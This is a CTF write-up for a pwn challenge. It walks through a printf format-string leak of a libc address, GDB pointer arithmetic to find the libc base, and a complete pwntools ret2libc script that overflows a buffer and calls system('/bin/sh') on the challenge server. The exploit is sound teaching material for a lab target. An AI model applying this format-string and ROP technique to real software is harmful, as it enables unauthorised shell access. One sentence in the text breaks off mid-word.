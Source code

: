 ![image](https://github.com/user-attachments/assets/5a03a650-6da4-4747-ba85-fe3c7be81a3f) \
Solved by : Relster
# Technique = Format string leak & Ret2libc

## 1. Checking given file.
Given a zip file that contains 3 files which are _vuln_, _libc.so.6_, and _ld-linux-x86-64.so.2_ \

Checking binary protection.
```bash
[*] '/home/relster/Desktop/ctf/kashi/pwn/trollzone/chall/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
This challenge is pretty trivial like most ret2libc challenges out there. The only difference is that, leaked address would n


## 2. Patching & Analyzing binary.
Patch:\
```bash
~/Desktop/ctf/pwninit    # You can change this according to where you put your pwninit
```
This should give us the __vuln_patched__ binary.\
\
Running binary:\
![pic_1](https://github.com/user-attachments/assets/5568ec12-50b6-48ae-a01d-bd34a19fc60d) \
If we continue leaking using '_%p_' format specifier, we'll find an address which still located within the _libc_ memory area and the offset is at the 17th offset (_%17$p_). Note that the address is still in _libc_ memory area but we that leaked address is not a _libc_ _function_ so we'll have to debug it in **GDB** to see nearest address that's a _libc function_. You'll see what i mean in the next image.

Debugging in **GDB**:\
Let's put a __breakpoint__ here and _run_ it.
![Screenshot 2025-02-27 124235](https://github.com/user-attachments/assets/9ddce0c6-ff56-4148-8cf9-88df4a74dc39)

Type _ni_ and we will be asked for the input, and we'll type _%17$p_ to leak the address as i mention above.
![image](https://github.com/user-attachments/assets/aa93c0b0-2864-439e-9bdf-cdf530c1a180)

We'll copy that _leaked address_ (_0x7ffff7e0924a_ in this case) and examine nearby address that is hopefully some _libc function_ so that we can subtract the offset of that function to get the base address of _libc_.


We can see that the leaked address is close to ___libc_start_main_, from here we just need to do some basic pointer arithmetic to get the address of ___libc_start_main_.\
![image](https://github.com/user-attachments/assets/1a33da72-a825-40f0-bfaa-d4a217858492)

It's _0x36_ bytes or 54 bytes in difference between _0x7ffff7e0924a_ and ___libc_start_main_.
![image](https://github.com/user-attachments/assets/21976e45-ad26-46c5-84bb-1c5e75a48f80)


From here it's just trivial like traditional _**ret2libc**_ challenges, we'll just subtract the address of ___libc_start_main_ with its offset and voila we get the base address of _libc_.


## 3. Final Exploit
```python
#!/usr/bin/env python

from pwn import *

context.arch = 'amd64'

TARGET = './vuln_patched'
HOST = 'kashictf.iitbhucybersec.in'
PORT = 55698

elf = ELF(TARGET)
libc = ELF('./libc.so.6')
ld = ELF("./ld-linux-x86-64.so.2")

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

#context.log_level = 'DEBUG'

gdb_script = f"""
    break *main
"""
#gdb.attach(p, gdbscript=gdb_script)

# ===================================== #


# STAGE 1 : Leak address from stack using 'printf format string'

fmtstr = b'%17$p'   # leaked libc address is at 17th offset

rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]
libc_start_offset = libc.symbols['__libc_start_main']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b"/bin/sh\x00"))

print("Offsets:")
print(f"__libc_start_main : {hex(libc_start_offset)}")
print(f"system            : {hex(system_offset)}")
print(f"/bin/sh           : {hex(binsh_offset)}")
print("==================================")

payload = flat(
    fmtstr,
)
p.sendline(payload)


# STAGE 2 : Clean up the leaked address

p.recvuntil(b'not giving you ')

# Leaking address and find libc base address
leak = p.recvuntil(b'\n').strip().decode()
libc_start_main = int(leak, 16) + 0x36  # this is adjacent (not very adjacent, but close) to the function '__libc_start_main', their difference is 0x36 bytes
libc_base = libc_start_main - libc_start_offset
system = libc_base + system_offset
binsh = libc_base + binsh_offset

print(f"leaked address    : {leak}")
print(f"__libc_start_main : {hex(libc_start_main)}")
print(f"libc_base         : {hex(libc_base)}")
print(f"system            : {hex(system)}")
print(f"binsh             : {hex(binsh)}")


# STAGE 3 : Craft payload from leaked addresses and send it to remote server

# Find pop rdi; ret; in libc
rop_libc = ROP(libc)
pop_rdi = rop_libc.find_gadget(['pop rdi', 'ret'])[0]
pop_rdi_addr = libc_base + pop_rdi

# Overflow, set up rdi register with '/bin/sh' string, call system()
pop_shell = flat(
    'A' * 40,
    ret,
    pop_rdi_addr,
    binsh,
    system
)
p.sendline(pop_shell)

p.interactive()
p.close()

# NOTE:
# Format string leak & Ret2libc
```

## 4. Result
Local:\
![image](https://github.com/user-attachments/assets/ee77ef4a-bdd4-452e-b978-b7a79e387b60)

Remote:\
![image](https://github.com/user-attachments/assets/ef5bcc65-ac08-4174-ac85-c76d4bc2bcb7)
Note : I was writing this writeup when the challenge is done, so no flags but the exploitation remains the same.

## Keyword
ret2libc \
_printf_ format string leak
